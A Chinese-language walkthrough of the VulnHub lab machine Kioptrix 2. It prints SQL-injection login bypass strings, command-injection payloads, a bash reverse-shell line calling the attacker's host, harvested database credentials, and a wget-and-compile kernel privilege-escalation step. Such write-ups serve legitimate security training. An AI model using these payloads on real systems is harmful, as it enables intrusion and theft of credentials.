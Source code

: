 # 前言

靶机：`kioptrix-2`，IP地址为`192.168.1.73`

攻击：`kali`，IP地址为`192.168.1.16`

都采用虚拟机，网卡为桥接模式

> 文章中涉及的靶机，来源于`vulnhub`官网，想要下载，可自行访问官网下载，或者通过下方链接下载

# 主机发现

使用`arp-scan -l`或`netdiscover -r 192.168.10.1/24`扫描

也可以使用`nmap`等工具进行

![](./pic-2/1.jpg)

# 信息收集

## 使用nmap扫描端口

这里建议扫描常见端口即可，我尝试扫描全端口，结果导致目标靶机的`ip`地址消失

![](./pic-2/2.jpg)

这里扫描完毕后，`IP`又不见了，哈哈哈哈哈哈哈哈哈，很好，再次重启，这里有点像是真实情况中的限制一样

## 网站信息探测

访问80端口，发现一个类似登录界面

![](./pic-2/3.jpg)

页面源代码中发现这是一个`form`表单，并且交给`index.php`处理

# 漏洞利用

## sql注入

先不进行扫描，毕竟这里一上来就给登录，尝试万能密码等进行测试

```shell
test' or 1=1--+
test' or 1=1#
test' or '1'='1
```

测试发现`test' or 1=1#`可行，并且`username`和`password`两个`input`任意一个都可以

直接进入到另一个界面，这里说是`ping`，测试一下

![](./pic-2/4.jpg)

## 命令执行

输入`127.0.0.1`，发现确实是执行`ping`，并且是跳转到`pingit.php`界面的

![](./pic-2/5.jpg)

这可能存在命令注入，因为假设拼接上可以触发

```shell
#这两个是逻辑运算
127.0.0.1 || ls	#当第一个执行成功，后一个就不会执行
127.0.0.1 && ls #当第一个执行成功，后一个才会执行

#这两个就是常见的管道符和后台运行
127.0.0.1 | ls	#管道处理，前面结果交给后面
127.0.0.1 & ls	#后台执行，命令执行的同时继续在终端中输入其他命令
```

这里的效果只展示一个，至于其他的，动手去操作啊，操作

输入`127.0.0.1 | ls`

![](./pic-2/6.jpg)

## 反弹shell

可以执行后面的命令，那么就好办了，这时候可以尝试反弹`shell`，或者查看文件等都行

不过最好是反弹`shell`，因为当有了`shell`后，可以执行很多

先在`kali`使用`nc`开启监听，`nv -lvvp 9999`

然后输入命令`127.0.0.1|bash -i >& /dev/tcp/192.168.1.16/9999 0>&1`并执行，这时候`kali`就会收到一个`shell`

![](./pic-2/7.jpg)

# 内网收集

这时候，查看当前目录，发现有`index.php`，那么必须查看一下源代码，为什么？因为在`form`表单是交给其处理的，里面可能存在敏感文件的位置或者敏感信息

果然，查看就发现了连接`mysql`的`php`函数，`localhost`是主机地址，`john`是连接数据库的用户名，`hiroshima`是密码

![](./pic-2/8.jpg)

发现连接数据库的用户名和密码，那么测试是否存在当前的用户`john`，也就是这是否是只用于数据库连接的，还是为了方便，采用主机的用户

```shell
ls -l /home
cat /etc/passwd | grep john
```

![](./pic-2/9.jpg)

既然存在，那么测试是否一码多用，尝试进行`ssh`连接，不过这里进行`ssh`连接涉及到一些过时的密钥交换等，所以先在靶机内使用`su`切换进行测试，发现密码错误。

![](./pic-2/10.jpg)

那么登录数据库进行查看数据库中的内容

```shell
mysql -ujohn -phiroshima

mysql> show databases;
mysql> use webapp
mysql> show tables;
mysql> select * from users;
```

![](./pic-2/11.jpg)

连接数据库的用户名还在里面，这个我觉得可能是靶机用户的密码`66lajGGbla`，进行测试，还是失败

![](./pic-2/12.jpg)

继续收集其他信息，使用`find`寻找具有SUID权限的文件，并无明显可利用的，有一个`sudo`但是测试后需要密码

收集操作系统等信息

```shell
uname -r
cat /etc/*release
cat /etc/issue
cat /etc/issue.bak
```

![](./pic-2/13.jpg)

# 提权

在`kali`使用`searchsploit`搜索对应的版本漏洞，果然有一个

```shell
searchsploit centos 2.6.9
```

![](./pic-2/14.jpg)

查看该脚本，发现其测试范围以及机器正好对应的上，并且在靶机上使用`gcc -v`发现安装了`gcc`

![](./pic-2/15.jpg)

在`kali`开启一个`python`的简易`http`服务，然后靶机下载到`/tmp`目录

```shell
#在kali运行
python3 -m http.server 8888

#在靶机执行
wget http://192.168.1.16:8888/9542.c
```

![](./pic-2/16.jpg)

进行编译，然后执行`exp`

```shell
gcc -o exp 9542.c
```

![](./pic-2/17.jpg)



# 总结

该靶机主要考察以下几点：

1. 对于`sql`注入的初步了解
2. 对于命令执行的初步了解
3. 对于反弹`shell`的了解
4. 对于各种命令的基本使用
5. 对于内网收集的初步测试，提示收集内核版本和操作系统版本，并且存在漏洞的危害是极大的
6. 对于漏洞库要会使用，并且会复现历史漏洞

这里查看`/etc/issue`时，说是有多种方式，啧，我没有找到，唉，先这样，回头再深入测试















































